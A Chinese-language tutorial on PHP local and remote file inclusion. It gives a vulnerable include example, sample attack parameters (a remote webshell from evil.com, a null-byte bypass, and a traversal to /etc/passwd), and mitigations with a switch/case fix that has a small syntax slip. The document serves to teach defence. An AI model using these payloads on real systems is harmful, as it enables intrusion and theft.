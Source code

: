 # 文件包含

## 特性

- 通常在运行时触发
- 与**目录遍历攻击**不同
    - 目录遍历 : 非授权访问文件内容（查看到源文件）
    - 文件包含: 可以劫持web应用**执行**某个文件（如本地/远程的PHP文件）
- 一个 **成功的** 文件包含攻击可以造成**远程代码执行**, 并且攻击者可以使用代码执行来创建一个 webshell 来维持访问。



## 类型

1. 远程文件包含 (**RFI**): RFI 通常在 web 应用包含外部文件的时候发生。 这些远程文件通常是以  **HTTP** or **FTP** URI 的形式由用户输入提供给 web 应用的。
2. 本地文件包含 (**LFI**): LFI 除了包含的是本地文件外，其余的都和 RFI 相似, 例如：当前服务器下的文件可以被包含时。这个问题依旧能导致 RFI，通过包含攻击者可控的 web 服务器日志文件就可以做到。 



## 怎样发生的

### 1. PHP:

1. *最值得注意的是*(NOT ALL)  `include` 和 `require` 语句
2. 使用 URL 从远程位置取回数据:
    1. PHP <= 4.3.4: `allow_url_fopen = On`, **enable by default**.
    2. PHP >= 5.2.0: `allow_url_include` , but fortunately, in 5.X this directive is **disabled by default**.
3. 攻击者可以更改传入到这些函数的参数的值，从而包含进恶意代码或者（远程）文件。
4. **如何修复**: **所有 ** 的用户输入在被使用前都需要验证! **记住：用户是不能信任的!**

#### Example:

Server:

```php
<?php
   if ( isset( $_GET['language'] ) ) {
      include( $_GET['language'] . '.php' );
   }
?>
```

client:

```html
<form method="get">
   <select name="language">
      <option value="english">English</option>
      <option value="french">French</option>
      ...
   </select>
   <input type="submit">
</form>
```

开发者本意是试图根据用户选择读入  `english.php` 或 `french.php 文件`, 然而服务器并没有验证，于是给了攻击者通过 language 参数注入其他路径和文件的可能。

**尝试攻击的几种途径**

1. `?language=http://evil.com/webshell.txt?` - 注入远程服务器上的包含恶意代码的文件 (**RFI**)
2. `?language=C:\\ftp\\upload\\expolit` - 执行已经通过别的漏洞上传的  'exploit.php'  文件内容(**LFI**)
3. `?language=C:\\data.txt%00` - 利用 **NULL meta character** 移除 `.php` 后缀, 从而运行执行 php 外的文件. **BTW**: 这个bug在PHP5.3后被修复了。
4. `?language=../../../../etc/passwd%00` - 允许攻击者通过“目录遍历漏洞”来读取 `/etc/passwd` 文件
5. 有时候攻击者可以修改 [HTTP](https://en.wikipedia.org/wiki/HTTP) 头 (such as `User-Agent`) 为 PHP 代码来达到远程代码执行的效果。

**减轻漏洞危害的措施**

1. 在需要接受参数的地方使用白名单策略
2. 过滤危险的字符或单词
3. 对传入的路径进行验证，确保没有包含非程序本意的字符或模式
4. [**best**] 使用预定义的 **switch/case** 语句来决定包含什么文件而不是使用 URL 或者用户的输入

**Patch it!**

Server:

```php
<?php
    if (isset($_GET['language']){
        switch ($_GET['language']){
            case 'english':
                xxx;
            case 'french':
                xxx;
            ...
        }
    }
?>
```

